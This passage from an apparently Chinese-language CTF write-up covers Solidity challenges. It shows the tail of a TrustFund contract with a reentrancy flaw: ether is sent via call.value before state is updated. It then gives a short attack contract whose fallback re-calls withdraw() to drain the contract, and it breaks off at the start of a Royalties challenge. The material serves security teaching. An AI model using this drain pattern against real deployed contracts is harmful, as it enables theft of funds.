 ```
        require(!withdrewThisYear, "Already Withdrew This Year");
        if (msg.sender.call.value(allowancePerYear)())`{`
            withdrewThisYear = true;
            numberOfWithdrawls = numberOfWithdrawls.add(1);
        `}`
    `}`

    function returnFunds() external payable ctf`{`
        require(msg.value == allowancePerYear, "Incorrect Transaction Value");
        require(withdrewThisYear==true, "Cannot Return Funds Before Withdraw");
        withdrewThisYear = false;
        numberOfWithdrawls=numberOfWithdrawls.sub(1);
    `}`
`}`
```

一个很典型的重入漏洞，注意到此处

> <p>if (msg.sender.call.value(allowancePerYear)())`{`<br>
withdrewThisYear = true;<br>
numberOfWithdrawls = numberOfWithdrawls.add(1);<br>
`}`</p>

使用了`call.value`来发送ether，同时余额的更新放在了后面，这样我们就可以重复提币直到清空合约的ether了

部署攻击合约

```
contract attack `{`
    TrustFund target;
    constructor() `{`
        target = TrustFund(your challenge address);
    `}`
    function pwn()`{`
        target.withdraw();
    `}`
    function () payable `{`
        target.withdraw();
    `}`
`}`
```

同样记得先调用`ctf_challenge_add_authorized_sender`将攻击合约添加到玩家里



## 0x8.Record Label

主要代码

```
contract Royalties`{`

    using SafeMath for uint256;

    address private collectionsContract;
    address private artist;

    address[] private receiver;
    mapping(address =&gt; uint256) private receiverToPercentOfProfit;
    uint256 private percentRemaining;

    uint256 public amountPaid;

    constructor(address _manager, address _artist) public
    `{`
        collectionsContract = msg.sender;
```